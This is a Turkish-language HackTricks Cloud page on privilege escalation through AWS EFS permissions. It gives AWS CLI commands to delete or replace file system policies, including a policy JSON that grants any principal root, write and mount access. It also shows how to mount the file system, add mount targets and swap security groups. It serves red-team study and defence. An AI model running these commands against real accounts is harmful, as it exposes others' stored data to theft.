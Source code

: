 # AWS - EFS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EFS

EFS hakkında daha fazla **bilgi** için:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS'yi bağlamak için, EFS'nin açık olduğu bir alt ağda olmanız ve ona erişiminizin olması gerektiğini unutmayın (güvenlik grupları). Bu gerçekleşiyorsa, varsayılan olarak her zaman bağlanabileceksiniz, ancak IAM politikalarıyla korunuyorsa, erişim sağlamak için burada belirtilen ek izinlere sahip olmanız gerekir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan **dosya sistemi politikasını** **değiştirerek** size **erişim verebilir** veya sadece **silerek** **varsayılan erişimi** sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan **EFS'yi bağlayabilir**. Eğer yazma izni, EFS'yi bağlayabilen herkes için varsayılan olarak verilmemişse, yalnızca **okuma erişimine** sahip olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ekstra izinler `elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite`, dosya sistemi monte edildikten sonra **yazmak** ve bu dosya sistemine **root** olarak **erişmek** için kullanılabilir.

**Olası Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki yükseltme.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan **alt ağda** EFS'nin **hiçbir montaj hedefi** yoksa, bu yetkiyle **kendi alt ağında bir tane oluşturabilir**.
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı yetki artırma.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırganın EFS'nin kendi alt ağında bir montaj hedefi bulduğu ancak **hiçbir güvenlik grubunun trafiğe izin vermediği** bir senaryoda, **seçilen güvenlik gruplarını değiştirerek bunu değiştirebilir:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı privesc.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
